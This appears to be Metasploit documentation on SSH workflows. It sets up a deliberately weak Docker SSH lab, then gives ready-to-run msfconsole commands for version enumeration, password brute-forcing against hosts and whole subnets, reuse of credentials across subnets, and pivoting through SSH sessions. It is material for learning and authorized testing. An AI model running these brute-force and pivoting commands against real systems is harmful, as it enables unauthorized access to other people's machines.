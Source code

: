 ## SSH Workflows
There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search ssh
```

### Lab Environment
It is also possible to use [Docker](https://www.docker.com/). First create a new `Dockerfile`:
```docker
FROM alpine:latest

RUN apk add --update
RUN apk --no-cache add openssh
RUN ssh-keygen -A
RUN echo 'root:toor' | chpasswd

RUN echo $' AuthorizedKeysFile .ssh/authorized_keys\n\
GatewayPorts no \n\
X11Forwarding no \n\
Subsystem       sftp    /usr/lib/ssh/sftp-server \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes' > /etc/ssh/sshd_config

RUN echo "KexAlgorithms diffie-hellman-group1-sha1"  >> /etc/ssh/sshd_config

RUN addgroup -g 700 test_user \
    && adduser -G test_user -D -u 700 -S -h /home/test_user -s /bin/sh test_user
RUN echo -n 'test_user:password123' | chpasswd

EXPOSE 22

CMD ["/usr/sbin/sshd","-D"]
```

Build and run:
```
docker build --tag ssh_lab:latest - < Dockerfile
docker run --rm -it --publish 127.0.0.1:2222:22 ssh_lab:latest
```

It should now be possible to test the SSH login from msfconsole:
```msf
msf6 > use scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### SSH Enumeration
Enumerate SSH version:
```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

### SSH Bruteforce
Brute-force host with known user and password list:
```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:
```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### SSH Login Session
If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:
```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Re-using SSH credentials in a subnet:
```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

Using an alternative port:
```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

### SSH Pivoting
Like Meterpreter, it is possible to [port forward through a Metasploit SSH session](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login.md#session-capabilities):
```
route add 172.18.103.0/24 ssh_session_id
```

To a route for the most recently opened Meterpreter session:
```
route add 172.18.103.0/24 -1
```

